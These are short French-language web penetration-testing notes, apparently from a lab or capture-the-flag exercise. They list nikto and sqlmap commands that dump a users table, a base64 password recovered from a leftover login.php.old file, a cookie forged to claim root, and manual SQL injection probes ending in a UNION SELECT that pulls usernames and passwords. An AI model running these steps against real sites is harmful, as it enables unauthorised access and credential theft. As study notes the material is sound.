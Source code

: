 
HTTP - Test connexion utilisation du debugguer pour voir les trames réseau. 
	Passer de GET à OPTION pour voir la réponse.
	
nikto -h <URL>


Neonazi à l'intérieur. Récupération page de login.php.old, mot de passe base64, décode sur base64decode.org
	Modification requête POST : Cookie: galerie=root:YXplcnR5NjU0JiY=
	Réponse dans "l'inspector" ...
	
	
sqlmap -u "<URL>"
sqlmap -r <BurpFile>
sqlmap -r <BurpFile> --tables
sqlmap -r <BurpFile> -T users --dump

Test SQL injection manual
http://mywebsite.php/login.php?id=1'
http://mywebsite.php/login.php?id='1
	Si la requête renvoi une erreur alors injectable
http://mywebsite.php/login.php?id=1 ORDER BY 15--
	Error out of range should be between 1 and xx
http://mywebsite.php/login.php?id=1 OR 1=1 UNION SELECT username, password, 3, from users
